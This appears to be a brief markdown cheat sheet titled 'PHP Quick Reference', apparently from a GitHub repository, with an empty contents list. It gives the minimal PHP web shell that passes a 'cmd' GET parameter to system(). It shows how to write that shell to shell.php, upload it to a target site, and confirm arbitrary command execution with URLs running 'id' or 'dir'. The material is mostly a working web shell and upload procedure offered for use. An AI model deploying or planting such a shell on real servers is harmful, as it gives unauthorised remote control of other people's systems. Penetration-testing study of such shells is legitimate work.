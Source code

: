 # PHP Quick Reference

## Contents
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## One-Liner: cmd
- This is a PHP function that is used to execute a command.
- It uses the PHP `system()` function to execute commands that are being passed through `cmd` HTTP request `GET` parameter.
- The `cmd` is a parameter. You pass the argument to that parameter via the URL (see below).

### Syntax
- This is the PHP web shell in its most simple form: 
```
<?php system($_GET["cmd"]); ?>
```

### Use as a Test
- Create a PHP file and upload it to a target site that's running PHP:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
- Build a URL to execute that script with a command (specific to the operating system o/s).
- If you get a response from the command you send to the o/s via the PHP `system()` function, you know you can execute arbitrary code on the target.
```
# for Linux:
http://[target domain]/shell.php?cmd=id

# for Windows:
http://[target domain]/shell.php?cmd=dir
```

